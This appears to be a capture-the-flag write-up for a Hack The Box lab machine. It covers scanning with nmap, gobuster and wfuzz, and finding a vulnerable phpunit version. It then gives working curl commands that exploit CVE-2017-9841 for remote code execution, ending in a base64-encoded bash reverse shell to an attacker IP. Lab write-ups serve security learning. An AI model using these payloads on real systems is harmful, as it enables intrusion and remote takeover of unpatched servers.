 

```bash
nmap -sV -sC -Pn $ip --top-ports 4250
```

Open ports: 22 and 80.

Entering the IP in a browser we get to a website.

![Home](img/htb-undetected_01.png)

Revising the source code, we see that the menu "Store" is linking to http://store.djewelry.htb/.

Another way to find out:

```
# with gobuster
gobuster dns -d djewelry.htb -w /usr/share/seclists/Discovery/DNS/namelist.txt 
```


Open /etc/hosts and add IP and  store.djewelry.htb, djewelry.htb.

After browsing around both websites, we found nothing noticeable, so we try to fuzz both subdomains:

```bash
# With wfuzz
wfuzz -c --hc 404 -t 200 -u http://store.djewelry.htb/FUZZ -w /usr/share/dirb/wordlists/common.txt  

wfuzz -c --hc 404 -t 200 -u http://djewelry.htb/FUZZ -w /usr/share/dirb/wordlists/common.txt  
```


Nothing interesting under main domain, but in http://store.djewelry.htb:

```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://store.djewelry.htb/FUZZ
Total requests: 4614

=====================================================================
ID           Response   Lines    Word       Chars       Payload                    
=====================================================================

000000001:   200        195 L    475 W      6203 Ch     "http://store.djewelry.htb/
                                                        "                          
000000013:   403        9 L      28 W       283 Ch      ".htpasswd"                
000000012:   403        9 L      28 W       283 Ch      ".htaccess"                
000000011:   403        9 L      28 W       283 Ch      ".hta"                     
000001114:   301        9 L      28 W       322 Ch      "css"                      
000001648:   301        9 L      28 W       324 Ch      "fonts"                    
000002021:   200        195 L    475 W      6203 Ch     "index.php"                
000001991:   301        9 L      28 W       325 Ch      "images"                   
000002179:   301        9 L      28 W       321 Ch      "js"                       
000003588:   403        9 L      28 W       283 Ch      "server-status"            
000004286:   301        9 L      28 W       325 Ch      "vendor"                   

Total time: 0
Processed Requests: 4614
Filtered Requests: 4603
Requests/sec.: 0

```


/vendor is a directory list, so we can browse all files and folders under /vendor.

After browsing for a while, we get information about this plugin with a vulnerable version installed  (all plugins installed with versions: http://store.djewelry.htb/vendor/composer/installed.json). Vulnerable plugin is "phpunit/phpunit","5.6.2".

Some exploits:

https://blog.ovhcloud.com/cve-2017-9841-what-is-it-and-how-do-we-protect-our-customers/

In my case:

```
curl -XGET --data "<?php system('whoami');?>" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

```
www-data
```

Now, we can get a reverse shell:

My reverse code before b64 it: "bash -i >& /dev/tcp/10.10.14.2/4444 0>&1"

```
curl -XGET --data "<?php system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yLzQ0NDQgMD4mMQo=|base64 -d|bash'); ?>" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```


See a walkthrough: https://0xdf.gitlab.io/2022/07/02/htb-undetected.html



